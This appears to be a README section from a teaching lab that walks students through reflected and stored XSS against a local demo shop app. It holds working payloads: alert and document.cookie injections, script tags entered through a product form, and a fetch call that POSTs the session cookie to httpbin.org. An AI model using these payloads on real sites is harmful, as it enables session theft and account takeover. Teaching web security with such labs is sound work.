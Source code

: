 ## 🧪 **Practical Demonstration**

### **Step 1: Observe URL Parameters (Attack Vector Discovery)**
1. Go to `http://localhost:3000`
2. Search for "wireless" in the search box
3. **Observe the URL** - it should change to:
   ```
   http://localhost:3000/?search=wireless
   ```
4. This shows students how search parameters work and where XSS can be injected

### **Step 2: Test Reflected XSS**
1. Copy this URL and paste it in a new browser tab:
   ```
   http://localhost:3000/?search=<img src=x onerror=alert('Reflected XSS!')>
   ```
2. You should see an alert box pop up
3. The search input will be pre-filled with the payload
4. **Notice the URL** contains the XSS payload - this is the attack vector!

### **Step 2: Simulate Cookie Theft**
1. Login as admin first: `http://localhost:3000/login`
2. Go to dashboard to see your session cookie
3. Copy this malicious URL:
   ```
   http://localhost:3000/?search=<img src=x onerror="alert('Cookie: '+document.cookie)">
   ```
4. Paste it in a new tab - you'll see your session cookie!

### **Step 3: Real Attack Simulation**
1. Create a malicious URL that steals cookies:
   ```
   http://localhost:3000/?search=<img src=x onerror="fetch('http://httpbin.org/post',{method:'POST',body:'cookie='+document.cookie})">
   ```
2. This will send the cookie to httpbin.org (a test service)
3. Check the httpbin.org response to see the stolen cookie

### **Step 4: Stored XSS Testing**
1. **Add Malicious Product**:
   - Go to the "Add New Product" form
   - Name: "Malicious Product"
   - Description: `<script>alert('Stored XSS!')</script>`
   - Price: 99.99
   - Click "Add Product"
   - Alert should appear immediately

2. **Test Cookie Theft**:
   - Add another product with:
   - Description: `<script>alert('Cookie: ' + document.cookie)</script>`
   - This will show your session cookie
